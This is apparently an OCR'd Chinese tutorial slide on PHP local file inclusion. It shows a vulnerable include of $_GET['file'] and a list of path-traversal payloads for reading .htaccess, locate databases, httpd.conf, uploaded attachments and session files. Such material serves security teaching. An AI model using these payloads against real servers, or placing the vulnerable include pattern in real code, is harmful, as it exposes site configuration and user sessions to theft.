

普通文件包含
普通文件包含
<?php include("inc/" . $_GET['file']); ?>

包含同目录下的文件：
?file=.htaccess

目录遍历：
?file=../../../../../../../../../var/lib/locate.db ?file=../../../../../../../../../var/lib/mlocate/mlocate.db
（linux中这两个文件储存着所有文件的路径，需要root权限）

获取web目录或者其他配置文件:
?file=../../../../../../../../../usr/local/apache2/conf/httpd.conf

包含上传的附件：
?file=../attachment/media/xxx.file

读取session文件：
?file=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7